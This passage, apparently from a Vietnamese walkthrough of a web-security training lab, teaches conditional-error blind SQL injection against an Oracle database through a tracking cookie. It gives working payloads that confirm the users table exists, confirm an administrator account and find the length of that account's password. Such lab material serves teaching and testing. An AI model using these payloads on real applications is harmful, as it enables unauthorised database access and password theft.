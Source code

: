     `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`
    
    Lần này, lỗi được trả về. Hành vi này cho thấy rõ ràng rằng lệnh inject của bạn đang được xử lý như một truy vấn SQL bởi back-end.
    
6. Miễn là bạn đảm bảo luôn chèn các truy vấn SQL hợp lệ về mặt cú pháp, bạn có thể sử dụng phản hồi lỗi này để suy ra thông tin chính về cơ sở dữ liệu. Ví dụ, để xác minh rằng bảng `users`tồn tại, hãy gửi truy vấn sau:
    
    `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
    
    Vì truy vấn này không trả về lỗi, bạn có thể suy ra rằng bảng này tồn tại. Lưu ý rằng `WHERE ROWNUM = 1`điều kiện này rất quan trọng ở đây để ngăn truy vấn trả về nhiều hơn một hàng, điều này sẽ phá vỡ sự nối kết của chúng ta.
    
7. Bạn cũng có thể khai thác hành vi này để kiểm tra các điều kiện. Đầu tiên, hãy gửi truy vấn sau:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Xác minh rằng đã nhận được thông báo lỗi.
    
8. Bây giờ hãy đổi nó thành:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
    
    Xác minh rằng lỗi biến mất. Điều này chứng minh rằng bạn có thể kích hoạt lỗi có điều kiện dựa trên sự thật của một điều kiện cụ thể. Câu `CASE`lệnh kiểm tra một điều kiện và đánh giá thành một biểu thức nếu điều kiện là đúng và một biểu thức khác nếu điều kiện là sai. Biểu thức trước chứa phép chia cho số không, gây ra lỗi. Trong trường hợp này, hai tải trọng kiểm tra các điều kiện `1=1`và `1=2`, và lỗi được nhận khi điều kiện là `true`.
    
9. Bạn có thể sử dụng hành vi này để kiểm tra xem các mục cụ thể có tồn tại trong bảng hay không. Ví dụ, sử dụng truy vấn sau để kiểm tra xem tên người dùng `administrator`có tồn tại hay không:
    
    `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Xác minh rằng điều kiện là đúng (nhận được lỗi), xác nhận rằng có một người dùng được gọi là `administrator`.
    
10. Bước tiếp theo là xác định có bao nhiêu ký tự trong mật khẩu của `administrator`người dùng. Để thực hiện việc này, hãy thay đổi giá trị thành:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Điều kiện này phải đúng, xác nhận rằng mật khẩu có độ dài lớn hơn 1 ký tự.
    
11. Gửi một loạt các giá trị theo dõi để kiểm tra độ dài mật khẩu khác nhau. Gửi:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Sau đó gửi:
    
    `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
    
    Và cứ thế. Bạn có thể thực hiện thủ công bằng Burp Repeater, vì độ dài có thể ngắn. Khi điều kiện không còn đúng (tức là khi lỗi biến mất), bạn đã xác định được độ dài của mật khẩu, thực tế là 20 ký tự.
    